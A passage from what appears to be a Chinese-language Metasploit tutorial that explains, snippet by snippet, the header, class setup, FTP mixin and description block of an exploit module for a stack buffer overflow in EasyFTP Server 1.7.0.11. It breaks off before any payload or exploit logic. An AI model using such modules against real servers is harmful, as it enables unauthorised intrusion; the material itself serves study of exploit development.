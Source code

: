 前面的代码是一个基本头，表示文件名、修订号以及利用漏洞的日期和时间值：

```
 ##
    # This file is part of the Metasploit Framework and may be subject 
to
    # redistribution and commercial restrictions. Please see the 
Metasploit
    # Framework web site for more information on licensing and terms 
of use.
    # http://metasploit.com/framework/
    ##
    require 'msf/core' 
```

MSF core 库需要在攻击开始时进行初始化：

```
class Metasploit3 <Msf::Exploit::Remote 
```

在前面的代码中，`Exploitmixin/`类为远程 TCP 连接提供了各种选项和方法，如`RHOST`、`RPORT`、`Connect()`、`Disconnect()`、`SSL()`。以下代码是根据频繁需求和使用情况分配给该漏洞的等级：

```
 Rank = GreatRanking 
```

在下面的代码中，`Ftp mixin/`类与 FTP 服务器建立连接：

```
includeMsf::Exploit::Remote::Ftp 
```

以下代码提供了有关利用漏洞的一般信息，并指向已知引用：

```
def initialize(info = {}) 
super(update_info(info, 
      'Name'           => 'EasyFTP Server <= 1.7.0.11 MKD Command 
Stack Buffer Overflow', 
      'Description'    => %q{ 
          This module exploits a stack-based buffer overflow in 
EasyFTP Server 1.7.0.11 
and earlier. EasyFTP fails to check input size when 
parsing 'MKD' commands, which 
leads to a stack based buffer overflow. 

        NOTE: EasyFTP allows anonymous access by default. However, 
in order to access the 
        'MKD' command, you must have access to an account that can
create directories. 

        After version 1.7.0.12, this package was renamed 
"UplusFtp". 

        This exploit utilizes a small piece of code that I've 
referred to as 'fixRet'. 
        This code allows us to inject of payload of ~500 bytes 
into a 264 byte buffer by 
        'fixing' the return address post-exploitation.  See 
references for more information. 
      }, 
      'Author'         => 
        [ 
          'x90c',   # original version 
          'jduck'   # port to metasploit / modified to use fix-up 
stub (works with bigger payloads) 
        ], 
```